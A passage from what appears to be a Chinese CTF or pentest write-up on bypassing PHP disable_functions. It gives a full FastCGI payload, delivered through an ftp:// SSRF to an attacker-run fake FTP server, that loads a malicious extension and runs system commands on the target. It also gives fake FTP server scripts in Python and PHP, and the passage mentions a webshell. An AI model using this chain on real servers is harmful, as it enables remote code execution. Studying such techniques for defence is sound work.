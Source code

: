 将上面的exp写入网站根目录(用file_put_contents也可以，方法很多，不列举了)，我们直接写入php文件，然后拖到蚁剑里，在url访问php文件可以得到Payload:

![image-20241108210606815](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082106910.png)

```
?file=ftp://ip:9999/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02B%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B6PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Fvar%2Fwww%2Fhtml%0Aextension+%3D+1.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

然后往我们自己的服务器上上传应该py文件，用于开启Fake FTP

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()

```

或者用php写一个，效果是一样的

```php
<?php
set_time_limit(10);
$socket = stream_socket_server("tcp://127.0.0.1:9001", $errno, $errstr);
if (!$socket) {
    echo "$errstr ($errno)<br />\n";
} else {
    while ($conn = stream_socket_accept($socket)) {
        var_dump("220 welcome\n" );
        fwrite($conn, "220 welcome\n" );
        fwrite($conn, "331 Username ok, send password.\n" );
        fwrite($conn, "230 Login successful.\n" );
        fwrite($conn, "200 Type set to: Binary.\n" );
        fwrite($conn, "213 1237\n" );
        fwrite($conn, "227 Entering passive mode (127,0,0,1,44,188).\n" );
```